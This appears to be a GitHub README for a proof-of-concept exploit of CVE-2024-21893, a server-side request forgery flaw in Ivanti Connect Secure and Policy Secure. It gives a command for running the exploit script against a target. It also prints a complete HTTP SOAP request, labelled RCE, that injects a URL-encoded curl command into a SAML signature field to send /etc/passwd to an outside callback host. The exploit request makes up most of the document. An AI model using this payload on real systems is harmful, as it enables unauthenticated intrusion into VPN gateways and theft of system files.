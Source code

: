 Credits to:
https://github.com/h4x0r-dz/CVE-2024-21893.py



CVE-2024-21893 is  server-side request forgery vulnerability in the SAML component of Ivanti Connect Secure (9.x, 22.x) and Ivanti Policy Secure (9.x, 22.x) and Ivanti Neurons for ZTA allows an attacker to access certain restricted resources without authentication.

run `python CVE-2024-21893.py -u target.com -a http://xxxxxxxxx.oastify.com`

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/bec33c87-a6c7-4db3-aedc-5749e994c917)

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/c38f93de-379b-4b76-8326-e66c019dfa2a)

### RCE 

```
POST /dana-ws/saml20.ws HTTP/1.1
Host: target.com
Accept: */*
Content-Type: text/xml
Content-Length: 934
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<ds:Signature
		xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
			<ds:SignedInfo>
				<ds:CanonicalizationMethod Algorithm="http://www.w3.org/2001/10/xml-exc-c14n#"/>
				<ds:SignatureMethod Algorithm="http://www.w3.org/2000/09/xmldsig#rsa-sha1"/>
			</ds:SignedInfo>
			<ds:SignatureValue>qwerty</ds:SignatureValue>
			<ds:KeyInfo xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.w3.org/2000/09/xmldsig" xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
				<ds:RetrievalMethod URI="http://127.0.0.1:8090/api/v1/license/keys-status/%3bcurl%20-X%20POST%20-d%20%40%2fetc%2fpasswd%20http%3a%2f%2f8oxxxxxxxxxxxxx.oastify.com%3b"/>
				<ds:X509Data/>
			</ds:KeyInfo>
			<ds:Object></ds:Object>
		</ds:Signature>
	</soap:Body>
</soap:Envelope>

```

![image](https://github.com/h4x0r-dz/CVE-2024-21893.py/assets/26070859/e7d7180a-b158-4437-9dd9-97d4c55539c9)


Reference : https://attackerkb.com/topics/FGlK1TVnB2/cve-2024-21893/rapid7-analysis 
